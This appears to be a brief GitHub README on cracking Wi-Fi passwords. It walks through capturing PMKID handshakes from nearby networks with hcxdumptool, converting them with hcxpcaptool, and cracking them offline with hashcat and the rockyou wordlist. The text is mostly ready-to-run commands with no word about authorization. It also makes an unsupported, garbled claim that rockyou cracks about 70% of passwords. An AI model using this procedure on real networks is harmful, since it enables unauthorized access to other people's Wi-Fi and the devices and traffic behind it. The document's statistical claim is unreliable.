 # wifi hacking using Hashcat and hcxdumptool 

## Capture PMKID Handshake:

### Use hcxdumptool to capture PMKID handshakes from nearby WiFi networks:

        hcxdumptool -i <interface> -o <output_file>
Replace <interface> with your wireless interface (e.g., wlan0) and <output_file> with the filename to save the captured handshakes.

### Convert Captured Handshake:

        hcxpcaptool -z <output_hash_file> <output_file>

Replace <output_hash_file> with the filename for the converted hash file and <output_file> with the filename of the previously saved output file from hcxdumptool.

### Crack Passwords : 

        hashcat -m 16800 <output_hash_file> <wordlist>

Replace <wordlist> with rockyou.txt 

rockyou is dictonary file there is 70% of password hack

dictionary present wordlist in kali linux # rockyou
